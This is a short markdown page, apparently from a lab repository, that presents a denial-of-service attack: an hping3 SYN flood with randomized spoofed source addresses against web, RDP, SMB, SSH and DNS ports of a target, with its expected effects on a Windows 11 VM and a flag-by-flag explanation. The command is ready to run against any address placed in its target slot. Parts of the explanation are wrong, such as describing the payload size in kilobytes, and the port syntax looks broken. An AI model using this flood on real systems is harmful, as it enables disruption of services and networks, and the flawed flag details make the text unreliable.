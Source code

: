 # Multi-Port SYN Flood Attack (Random Source IPs)

## Effects:
- High CPU, RAM, and Network (Ethernet) Usage on Windows 11 VM.
- Can slow down or crash network services like RDP, SMB, DNS, and Web Server.
- The Windows 11 VM may crash or freeze due to high processing load.

## Command:
```bash
sudo hping3 -S --flood --rand-source -p 80,443,3389,445,22,53 -d 3000000 --fast <Target IP>
```

## Explanation:

- `-S` → Sends SYN flag, initiating TCP handshake flood.
- `--flood` → Sends continuous packets without waiting for a response.
- `--rand-source` → Uses random fake IPs to bypass filtering.
- `-p 80,443,3389,445,22,53` → Targets multiple ports.
- `-d (ex:-3000000)` → Defines data packet size in KB.
- `--fast` → Sends packets at maximum speed.
